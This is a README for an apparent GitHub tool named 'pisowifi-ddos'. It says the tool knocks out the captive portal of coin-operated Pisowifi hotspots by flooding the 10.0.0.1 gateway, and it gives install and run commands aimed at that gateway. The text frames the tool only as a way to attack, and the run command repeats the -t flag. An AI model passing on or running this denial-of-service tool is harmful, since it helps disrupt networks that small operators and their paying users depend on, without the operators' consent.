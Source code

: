 # Pisowifi DDOS
Pisowifi 502 10.0.0.1 Gateway Error and take down captive portal.

# Installation
```
pkg update && pkg upgrade -y && pkg install python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos && cd pisowifi-ddos
```
# Run
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```
<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/logs.png">
</div>
